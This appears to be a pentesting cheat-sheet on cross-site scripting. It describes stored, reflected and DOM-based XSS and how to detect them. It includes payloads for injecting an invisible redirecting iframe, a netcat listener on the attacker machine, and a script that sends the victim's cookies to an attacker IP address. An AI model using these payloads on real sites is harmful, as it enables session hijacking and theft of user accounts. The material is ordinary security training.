 # XSS

> Cross-site Scripting (XSS) is a client-side code injection attack. The attacker aims to execute malicious scripts in a web browser of the victim by including malicious code in a legitimate web page or web application.

```bash
#The famous test script:
<script>alert('test')</script>
```

## Types of XSS

**Applications should sanitize all user inputs. Else, we can try to execute code.**

### Stored XSS:

Persistent XSS stored in a database. Every user who access the vulnerable page will receive the payload. Examples are: Forums and comment sections.

### Reflected XSS:

The payload is included in the URL. It only affects people accessing the malicious link. Example: Search bars.

### DOM-Based XSS:

Where content of an input is used to change something in the page. Example: Changing the background input.

_____

## Detecting XSS

In a persistent XSS, where we insert some input that will be stored in a database (like a forum or a comment section), we can try to add special characters in order to test how the application threats those characters.

For example, inserting the following in a comment section:

```bash
< > ; ""
```

If we inspect the results in the browser developer console and we see that these characters are not encoded, it's likely that the page is vulnerable to XSS.

_____

## Redirecting with XSS

Once we identify an XSS vulnerability, we can insert an invisible iframe in the page in order to redirect the client to our location.

```JavaScript
//Setup listener in attacker machine:
nc -nlvp $PORT
//Invisilble iframe to inject in the vulnerable page:
<iframe scr=$URL height="0" width="0"></iframe>
```

_____

## Stealing Cookies

If HttpOnly (deny JavaScript access cookies) cookie flag is not set, we can modify the payload to hijack user cookies (we should review other browser security controls, not only HttpOnly):

```JavaScript
<script>new Image().src="http://$IPADDRESS/image.jpg?output="+document.cookie;</script>
```

_____

## BeEF
> BeEF allows the professional penetration tester to assess the actual security posture of a target environment by using client-side attack vectors.
